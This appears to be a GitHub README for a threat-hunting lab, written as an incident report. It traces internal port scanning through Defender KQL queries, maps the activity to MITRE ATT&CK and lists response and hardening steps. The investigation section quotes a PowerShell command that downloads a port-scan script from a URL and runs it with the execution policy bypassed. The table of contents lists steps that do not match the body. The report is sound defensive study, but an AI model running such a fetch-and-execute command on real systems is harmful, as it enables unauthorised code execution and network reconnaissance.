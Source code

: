 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [Step 1) Create a Windows virtual machine in the Azure portal](#step-1-create-a-windows-virtual-machine-in-the-azure-portal)
- [Step 2) Log into the VM and disable the Windows Firewall](#step-2-log-into-the-vm-and-disable-the-windows-firewall)
- [Step 3) Run a PowerShell command:](#step-3-run-a-powershell-command)
- [Step 4) Create a Network Security Group](#step-4-create-a-network-security-group)
- [Step 5) Login to tenable](#step-5-login-to-tenable)
- [Step 6) Run a Basic Scan: Unauthenticated](#step-6-run-a-basic-scan-unauthenticated)
- [Step 7) Run a Basic Scan: Authenticated](#step-7-run-a-basic-scan-authenticated)
- [Difference in Scan Duration](#difference-in-scan-duration)

---


### 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
Data Sources Queried:

DeviceNetworkEvents

DeviceProcessEvents

DeviceFileEvents

Focus Areas:

Failed network connections (potential scanning)

Suspicious process executions

File downloads or script execution activity

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize FailedConnectionsAttempts = count() by DeviceName, LocalIP
| order by FailedConnectionsAttempts desc
Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

kusto
Copy
Edit
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == "10.0.0.5"
| order by Timestamp desc
Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation
### Step 3:
Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

kusto
Copy
Edit
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName
Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

powershell
Copy
Edit
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

## 6. Response
Actions Taken:

Logged into the device to verify script existence.

Confirmed the file portscan.ps1 existed under C:\ProgramData.

Isolated the host from the network.

Performed a full malware scan (no malware detected).

Escalated to IT for reimaging of the device to ensure integrity.

## 7. MITRE ATT&CK Mapping
markdown
Copy
Edit
- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
## 8. Lessons Learned / Improvement
Preventive Measures:

Implement internal network segmentation to reduce lateral movement risk.

Restrict PowerShell usage via GPO or allow-listing.

Apply egress controls and file reputation filtering for outbound web requests.

Increase visibility over SYSTEM-level activities on endpoints.

Detection Enhancements:

Create alerts for abnormal outbound connection spikes.

Monitor for suspicious PowerShell usage and external script downloads.

Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


